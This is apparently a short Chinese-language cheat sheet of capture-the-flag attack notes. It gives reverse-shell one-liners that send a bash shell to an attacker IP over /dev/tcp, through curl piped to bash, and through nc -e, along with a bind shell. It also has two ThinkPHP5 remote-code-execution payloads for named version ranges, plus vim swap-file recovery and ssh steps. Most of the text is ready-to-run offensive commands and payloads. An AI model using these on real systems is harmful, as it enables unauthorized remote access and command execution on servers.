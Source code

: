 ### 1.反弹shell

说明：端口可任意，但要保持一致而且不能被占用，以下均为攻击机登录被攻击机

#### bash连接

```bash
攻击机器输入 nc -lvp 7777

被攻击机器输入bash -i >& /dev/tcp/攻击机ip/7777 0>&1  
```

然后攻击机器就相当于登陆了了被攻击机器

#### curl连接

```bash
在攻击机根目录下创建shell.txt,内容为bash -i >& /dev/tcp/攻击机ip/7777 0>&1

//注意shell.txt不是在服务器根目录，而是例如/var/www/html下
被攻击机执行curl 攻击机ip/shell.txt|bash  //先curl获得shell.txt的内容然后用bash执行
```

#### nc连接

说明：用nc连接成功后不会出现类似bash连接那种开头的root@kali这种，可用pwd检测是否连接成功

**利用攻击机ip**

```bash
攻击机输入 nc -lvp 7777

被攻击机输入 nc -e /bin/bash 攻击机ip 7777 
```

**利用被攻击机ip**

其他都是需要攻击机ip，这个则相反。我的理解是需要攻击机ip的相当于把shell弹给攻击机(所以攻击机ip和bash在一行代码)，而这个相当于在本地端口开个shell,攻击机访问端口来拿shell

```bash
攻击机输入 nc 被攻击机ip 7777

被攻击机输入  nc -lvp 7777 -e /bin/bash
```

### 2.thinkphp5漏洞

thinkphp5默认有s参数，若题目暗示是thinkphp5可查先构造?s=captcha报错查看版本再在网上搜漏洞

```
http://serverName/index.php?s=/模块/控制器/操作/[参数名/参数值...]
```

**两个通杀payload**

```
版本号：5.0.8~5.0.19 
payload:s=whoami&_method=__construct&filter&filter=system _

版本号：5.0.20~5.0.23 
payload：_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

### 3.查看swp源码

在linux内输入vim -r index.php.swp即可看到swp文件源码

### 4.ssh连接

```bash
ssh root@url -p port
```

